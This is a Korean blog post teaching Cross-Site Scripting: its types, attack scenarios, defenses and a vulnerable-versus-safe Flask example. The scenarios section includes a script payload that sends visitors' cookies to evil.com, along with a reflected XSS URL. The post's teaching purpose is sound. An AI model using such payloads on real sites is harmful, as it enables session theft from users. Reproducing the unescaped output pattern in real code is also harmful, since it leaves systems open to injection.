 ```yaml
---
layout: post
title:  XSS 취약점
date:   2025-06-19
category: security
image: /assets/img/blog/blog11.jpg
author: 최진혁
tags: xss, web-security
---
```


### XSS란 무엇일까요?

* **정의:** XSS(Cross-Site Scripting)는 웹 페이지에 사용자가 입력한 내용을 필터링 없이 그대로 출력할 때, 공격자가 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 실행되도록 하는 취약점입니다.
* **영향:**  
    * **쿠키·세션 탈취:** `document.cookie` 등을 통해 인증 정보가 외부로 전송될 수 있습니다.  
    * **피싱·UI 변조:** 페이지 내용을 조작해 가짜 로그인 폼이나 입력창을 띄울 수 있습니다.  
    * **권한 상승:** 악성 스크립트를 통해 관리자 기능을 탈취하거나 실행할 수 있습니다.

---

## 2. XSS의 유형

1. **Stored XSS (영구형):**  
   공격 코드를 데이터베이스, 게시판, 댓글 등에 저장해 다른 사용자가 접근할 때마다 실행되도록 함.  
2. **Reflected XSS (반사형):**  
   URL 파라미터나 폼 입력값에 공격 코드를 넣으면 즉시 응답 페이지에 반영되어 실행됨.  
3. **DOM-Based XSS:**  
   클라이언트 측 자바스크립트에서 `innerHTML`, `document.write` 등을 통해 동적으로 삽입 시 발생.

---

## 3. 공격 시나리오

- **Stored XSS 예시:**  
  게시판에 `<script>new Image().src="https://evil.com/steal?c="+encodeURIComponent(document.cookie)</script>` 를 남기면, 모든 방문자가 쿠키를 탈취당함.
- **Reflected XSS 예시:**  
  `https://victim.com/search?q=<script>alert('XSS')</script>` 링크를 열 때마다 스크립트가 즉시 실행됨.
- **DOM-Based XSS 예시:**  
  `document.getElementById('output').innerHTML = location.hash.substring(1);` 코드가 `<div id="output">`에 해시값을 그대로 출력.

---

## 4. 방어 방법

1. **출력 시 이스케이프 처리**  
   모든 사용자 입력값을 HTML 특수문자로 변환(`&lt;`, `&gt;`, `&quot;`, `&#x27;` 등).
2. **Content Security Policy (CSP) 적용**  
   인라인 스크립트나 외부 스크립트 로딩을 엄격히 제한.
3. **HTTPOnly & Secure 쿠키**  
   `document.cookie` 접근을 차단하고 HTTPS 전송만 허용.
4. **라이브러리 활용**  
   React/Vue 같은 프레임워크의 자동 이스케이프 기능 또는 OWASP ESAPI 사용.

---

## 5. 예시 코드 (Flask + Jinja2)

```python
# 취약한 코드: 필터링 없이 바로 출력
@app.route('/search')
def search():
    query = request.args.get('q')
    return f"<h1>검색 결과: {query}</h1>"

# 안전한 코드: Jinja2 자동 이스케이프 활용
@app.route('/search-safe')
def search_safe():
    query = request.args.get('q')
    return render_template('search.html', query=query)
```

```html
<!-- templates/search.html -->
<!DOCTYPE html>
<html>
  <head><meta charset="utf-8"><title>검색</title></head>
  <body>
    <h1>검색 결과: {{ query }}</h1>
  </body>
</html>
```

---

XSS는 단순하지만 가장 흔하게 발견되는 취약점 중 하나입니다.  
작은 실수 한 번이 큰 보안 사고로 이어질 수 있으니, 언제나 입력값을 믿지 말고 “출력 시 반드시 이스케이프!”를 기억하세요.  
